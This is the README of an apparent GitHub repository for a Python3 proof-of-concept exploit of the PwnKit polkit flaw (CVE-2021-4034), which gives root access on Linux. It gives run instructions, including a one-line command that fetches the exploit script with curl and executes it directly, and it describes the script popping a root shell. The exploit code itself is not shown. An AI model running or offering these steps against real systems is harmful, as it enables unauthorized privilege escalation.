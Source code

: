 ```
██████╗ ██╗  ██╗██╗    ██╗███╗   ██╗███████╗██████╗ 
██╔══██╗██║ ██╔╝██║    ██║████╗  ██║██╔════╝██╔══██╗
██████╔╝█████╔╝ ██║ █╗ ██║██╔██╗ ██║█████╗  ██████╔╝
██╔═══╝ ██╔═██╗ ██║███╗██║██║╚██╗██║██╔══╝  ██╔══██╗
██║     ██║  ██╗╚███╔███╔╝██║ ╚████║███████╗██║  ██║
╚═╝     ╚═╝  ╚═╝ ╚══╝╚══╝ ╚═╝  ╚═══╝╚══════╝╚═╝  ╚═╝
A Python3 PoC for CVE-2021-4034 by Kim Schulz
``` 

# Intro

This is a simple Python3 PoC for the newly found Polkit error names [PwnKit](https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034).

The issue is very simple to abuse but has huge consequences as it will easily give root access on most linux machines where the attacker has local user access. 

# How to run
This script is a one shot execution so simply do
```
python3 pkwner.py
```
You can also run it directly from a webserver (e.g. this github repo) via:
```
python3 <(curl https://raw.githubusercontent.com/kimusan/pkwner/main/pkwner.py)
```

In both cases it should look something like this:
![alt text](https://github.com/kimusan/pkwner/raw/main/screenshot.png "screenshot")

The script will create some files and folders but will cleanup after itself when the root shell is popped. 

# Credits

- **Qualys** for finding the issue and making the info public
- **Andris Raugulis** for making one of the first PoCs to get inspired from
- **MiscGang** because misgang@[Kalmarunionen](https://kalmarunionen.dk) are baddass 
